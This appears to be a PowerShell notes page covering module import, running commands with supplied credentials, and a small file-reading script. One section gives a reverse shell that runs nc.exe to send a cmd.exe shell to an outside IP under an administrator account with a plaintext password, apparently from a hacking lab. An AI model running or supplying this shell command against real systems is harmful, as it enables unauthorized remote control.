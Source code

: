 To see all modules available:

```
Get-Module -ListAvailable
```

### Import-Module

For example, if you have downloaded a Module from a GitHub project. \
To use it, you have to first import the module:

```
Import-Module .\module.psm1
```

After importing, you can view the available commands:

```
Get-Command -Module <Module Name>
```

## PowerShell with Credentials

Running cmdlets with credentials:

```
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -credential $credential;
```

Running a Reverse Shell:

```
$password = convertto-securestring -AsPlainText -Force -String "butterfly!#1";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\Administrator",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e cmd.exe 10.10.14.23 5555} -credential $credential;
```

## Scripts

Usually, scripts files end with `.ps1`

### Example script - cat.ps1

```
Param(
    [parameter(mandatory=$true)] [string]$file
)
Get-Content "$file"
```

> Note it asks for an input `file` since we specify `mandatory=$true`

```
PS C:\Users\brian\Desktop\temp> .\cat.ps1

cmdlet cat.ps1 at command pipeline position 1
Supply values for the following parameters:
file: systeminfo.txt

PSComputerName                            : BRIANYAU-PC
Status                                    : OK
--snip--
```

